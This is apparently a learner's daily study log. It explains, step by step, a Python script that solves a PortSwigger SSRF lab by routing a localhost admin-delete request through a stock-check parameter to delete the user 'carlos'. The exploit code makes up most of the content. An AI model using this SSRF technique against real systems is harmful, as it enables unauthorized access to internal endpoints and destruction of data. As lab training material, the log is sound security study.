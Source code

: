 "Sometimes in life, you have to make a selfish decision and do what's best for you." - Saquon Barkley

# Day-14 Summary:

### Things Done Today:

- [X] Wreath Network:

- [X] SSRF Lab #1: [Web-Security Academy](https://portswigger.net/web-security/) -- PortSwigger; [Rana Khalil's Course](https://ranakhalil.teachable.com/);
   - Done with lab#1 today: It was pretty easy and understood the python code [Check out the full code in good format here], which I'm gonna tryna explain you people here below. 

1. Importing all the modules. Also disabling the warnings incase of not having the valid certificate.

```
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
2. This thing is total optional, but in-order to check where you went wrong if the script doesn't work, this is real helpful thing to add onto the script.

```
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
```
3. [If name-main](https://www.freecodecamp.org/news/if-name-main-python-example/): Check out this article to know more about why do we add this. 
   - My explanation: In simple terms, the python interpreter always checks for this `__name__` function line if it is set to the same. it will execute whatever is mentioned to be executed under it. Also since python is interpreted lang, it checks code line by line. 

```
if __name__ == "__main__":
    main()
```
4. Defining the main function. Here if the arguments by the user is not in the correct format or length, the whole program won't execute, otherwise will execute the program, which here is deleting the user Carlos as mentioned to-do in the lab-01 of SSRF.

```
def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)
```

5. After defining the main user, it's time now to define the `delete_user(url)`. The goal of the program is to get the admin access and then delete the user named carlos. While looking to the source code, we got the admin path which was `/admin` and while looking at the admin source code we got the delete user path `/delete?username=carlos`. So here the below code make's the resuest to the url mentioned by the user while excuting this script and does the task.

```
def delete_user(url):
    payload = 'http://localhost/admin/delete?username=carlos' #since we have to delete the carlos username
    check_stock_path = '/product/stock' 
    params = {'stockApi': payload} #which is in the stock request
    r = requests.post(url + check_stock_path, proxies=proxies, verify=False, data=params)
```
6. Now until above the if script executed, the user would have be deleted but what if we want to check if our script worked is correct or not, hence below code. Here we make an another request to the `/admin` path and in the response the script will check for keyword `User deleted successfully`, if mentioned then it is a success, if not - unsuccess. 

```
    # Check if user was deleted
    admin_ssrf_payload = 'http://localhost/admin'
    params2 = {'stockApi': admin_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params2, verify=False, proxies=proxies)
    if 'User deleted successfully' in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was unsuccessful.")
```


